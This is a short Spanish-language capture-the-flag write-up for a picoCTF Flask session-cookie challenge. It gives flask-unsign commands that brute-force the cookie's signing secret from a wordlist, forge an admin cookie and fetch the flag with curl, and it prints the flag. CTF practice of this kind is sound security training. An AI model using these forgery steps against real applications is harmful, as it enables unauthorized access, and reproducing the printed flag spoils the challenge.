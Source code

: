 ## Descripción 
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/1e4bd835ad3e7fe776d49e7b8cc280c1/server.py) [http://mercury.picoctf.net:35697/](http://mercury.picoctf.net:35697/)
## Solución
Crear un archivo cookies.txt donde tengamos todas las cookies.

Usar un ambiente virtual para instalar flask.unsign

Crear un ambiente virtual 
source  ~/.venv/bin/activate

Hacer un ataque a la con:
flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aN3a_g.CuXz7ufUzZm1lUVY1bLqaAc0FLs" --wordlist cookies.txt

Obtener la palabra secreta en mi caso "peanut butter" .

Crear otra cookie con la palabra secreta.
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "peanut butter"

Hacer un curl usando la cookie generada con la palabra secreta.
curl -s http://mercury.picoctf.net:35697/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aN3fKg.lJj5FY09GLBE_l4Byt-yS1nksds" | grep pico

Se obtiene la flag: 
picoCTF{pwn_4ll_th3_cook1E5_22fe0842}
## Notas Adicionales 
## Referencias
